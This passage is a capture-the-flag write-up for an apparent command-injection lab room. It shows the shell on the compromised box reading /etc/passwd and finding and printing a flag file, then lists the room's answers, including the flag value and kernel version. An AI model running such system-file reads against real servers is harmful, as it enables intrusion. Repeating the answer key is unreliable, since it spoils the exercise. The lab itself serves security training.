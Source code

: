 ```bash
www-data@injection:/$ cat /etc/passwd
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```

----

# Task 5 Get The Flag!
----

>>Good work getting this far!  You've completed the walkthrough, learned about command injection; what it is and how to test for it, and now it's time to prove what you've got!  Exploit the vulnerability and get the flag!  For this, you can exploit either page.  Both are vulnerable.

```bash
www-data@injection:/$ find / -name "flag*" 2>/dev/null
/etc/flag.txt

www-data@injection:/$ cat /etc/flag.txt 
65fa0513383ee486f89450160f3aa4c4
```

----

# Answer the questions below
----

1.Deploy the machine!
>>No answer needed

2.Read the above and let's go!
>>No answer needed

3.Ping the box with 10 packets.  What is this command (without IP address)?
>>ping -c 10

4.Redirect the box's Linux Kernel Version to a file on the web server.  What is the Linux Kernel Version?
>>4.15.0-101

5.Enter "root" into the input and review the alert.  What type of alert do you get?
>>Success

6.Enter "www-data" into the input and review the alert.  What type of alert do you get?
>>Success

7.Enter your name into the input and review the alert.  What type of alert do you get?
>>Error

8.What strange text file is in the website root directory?
>>drpepper.txt 

9.How many non-root/non-service/non-daemon users are there?
>>0
